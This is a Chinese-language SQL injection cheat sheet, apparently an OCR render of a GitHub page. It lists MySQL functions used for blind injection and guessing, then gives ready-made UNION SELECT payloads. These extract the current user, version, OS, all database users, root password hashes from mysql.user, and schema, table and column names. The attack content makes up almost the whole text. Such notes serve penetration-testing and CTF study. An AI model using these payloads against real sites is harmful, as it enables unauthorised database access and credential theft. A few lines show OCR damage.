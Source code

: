 #### SQL注入常见函数

- group_concat函数   可以把查询的内容组合成一个字符串

- load_file(file name )  读取文件并将文件按字符串返回

- left（string，length）返回最左边指定的字符数：
  left（database（），1）>'s'  (猜名字)

- length（）判断长度
  length（database（）>5 

- substr（a，b，c）从字符串a中截取 b到c长度

- ascii（）将某个字符转为ascii值

  ascii（substr（user（），1，1））=101#

- mid（（a，b，c）从字符串a中截取 b到c位置（可以用来猜数据库名 ）

### 9. SQL注入备忘

#### SQL注入常用命令

- 查看当前用户：union select 1,(select user())--+

- 查看数据库版本：union select 1,(select version())--+

- 查看当前数据库名：union select 1,(select database())--+

- 查看操作系统union select 1,(select @@version_compile_os)--+

- 所有用户：

  - union select 1,(select group_concat(user) from mysql.user)--

    +

- 用户hash

  - union select 1,(select group_concat(password) from mysql.user where user='root')

- 查看所有数据库名

  - union select 1,(SELECT group_concat(schema_name) from information_schema.schemata)--+

- 查看某一个库的全部表

  - union select 1,(SELECT group_concat(table_name) from information_schema.tables where table_schema='库名')--+
  - union select 1,(SELECT group_concat(table_name) from information_schema.table_constraints where table_schema='库名'

- 查看某个表的字段名

  - union select 1,(SELECT group_concat(column_name) from information_schema.columns where table_name='表名')--+

- 查看某个库中某个表的字段名

  - union select 1,(select group_concat(column_name) from information_schema.columns where table_name='表名' and table_schema='库名')--+
